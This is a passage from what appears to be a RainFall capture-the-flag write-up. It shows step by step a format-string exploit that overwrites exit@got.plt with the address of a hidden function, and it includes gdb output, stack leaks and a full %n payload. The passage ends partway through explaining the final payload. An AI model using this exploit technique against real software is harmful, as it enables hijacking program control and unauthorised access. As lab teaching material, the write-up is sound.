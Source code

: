 As fast as __Kizaru__ :

```sh
(gdb) print o
$1 = {<text variable, no debug info>} 0x80484a4 <o>
(gdb)
```

### The address of the `o` function is `0x080484a4`.

## 3. Finding the padding

Classic things now ! :

```sh
level5@RainFall:~$ ./level5
AAAA %p %p %p %p %p %p
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025
level5@RainFall:~$
```

### Our buffer is stocked to the **4th place** in the stack.

## 4. Overwriting the address of `exit<got.plt>` by the address of the `o` function

If we have an overview of our actual payload we have this :
```sh
python -c print("\x38\x98\x04\x08"); cat # \x38\x98\x04\x08 : address of exit@got.plt
```

We need to place the address of the `o` function at the right place in the stack (4th), the address need to overwrite the address of `exit<got.plt>`.

Like the [level3](https://github.com/Nimpoo/rainfall/tree/main/level3), we will use the `%n` format string to overwrite the address of `exit<got.plt>`. Instead of the level3 where we need to write only an integer, here it's an address.

__How to do that ?__

By the same way simply, but we put an address, a **hexadecimal number exactly**, that's it. We put the **decimal of the address of the `o` function**, and with the string format `%x` we can convert it in hexadecimal. I used a [webdsite](https://www.rapidtables.com/convert/number/hex-to-decimal.html) to convert the decimal to hexadecimal.

And don't forget the address must be placed at the 4th place (for `printf`, the 4th argument) :

```sh
python -c 'print "\x38\x98\x04\x08" + "%134513828x%4$n"'; cat
```

## 5. The final payload

A little brief of the final payload :
- `\x38\x98\x04\x08` (`0x8049838`) : address of `exit@got.plt`, this is stocked in the buffer, and at the 4th place in the stack.

